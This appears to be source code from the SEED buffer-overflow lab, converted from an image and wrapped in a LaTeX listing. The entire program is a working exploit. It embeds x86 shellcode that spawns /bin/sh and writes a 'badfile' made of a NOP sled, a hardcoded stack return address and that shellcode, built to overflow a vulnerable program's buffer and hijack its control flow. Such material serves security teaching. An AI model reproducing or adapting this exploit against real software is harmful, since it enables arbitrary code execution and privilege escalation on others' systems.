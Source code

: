 \documentclass[14pt]{extarticle}
\begin{document}
\begin{lstlisting}[language=c]
/* exploit.c */
/* A program that creates a file containing code for launching shell */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[] =
    "\x31\xc0"   /* Line 1: xorl   %eax,%eax    */
    "\x50"       /* Line 2: pushl  %eax         */
    "\x68""//sh" /* Line 3: pushl  $0x68732f2f  */
    "\x68""/bin" /* Line 4: pushl  $0x6e69622f  */
    "\x89\xe3"   /* Line 5: movl   %esp,%ebx    */
    "\x50"       /* Line 6: pushl  %eax         */
    "\x53"       /* Line 7: pushl  %ebx         */
    "\x89\xe1"   /* Line 8: movl   %esp,%ecx    */
    "\x99"       /* Line 9: cdq                 */
    "\xb0\x0b"   /* Line 10: movb  $0x0b,%al    */
    "\xcd\x80"   /* Line 11: int   $0x80        */
;
void main(int argc, char **argv)
{
	int  arr_size    = 24;              // size of target array. (buffer that will be overflowed)
	int  buff_size   = 517;             // size of badfile. (should match larger buffer size)
	long buff_loc    = 0xbfffeb38;      // retrieved from outputting buffer location.
	int  gcc_padding = arr_size + 12;   //36  - adding 8 to get to return address
	int  nop_buff    = gcc_padding + 4; //40  - adding 4 nop's after return address, before source code
	
    char buffer[buff_size];
    FILE *badfile;
    /* Initialize buffer with 0x90 (NOP instruction)*/
    memset(&buffer, 0x90, 517);

	/* Place return location after array */
	int source_loc = buff_loc + nop_buff;
	buffer[gcc_padding]   = (source_loc >> (8*0)) & 0xFF; // get first part of source code location
	buffer[gcc_padding+1] = (source_loc >> (8*1)) & 0xFF; // get next more significate byte.
	buffer[gcc_padding+2] = (source_loc >> (8*2)) & 0xFF; // ... and so on.
	buffer[gcc_padding+3] = (source_loc >> (8*3)) & 0xFF;
	
	/* Copy source code into stack */
	/* last byte is null, so it is removed */
	strncpy( buffer+nop_buff, shellcode, sizeof(shellcode)-1);
	
    /*Save the contents to the file "badfile"*/
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
\end{lstlisting} \cite{seed-bof}\\
\end{document}
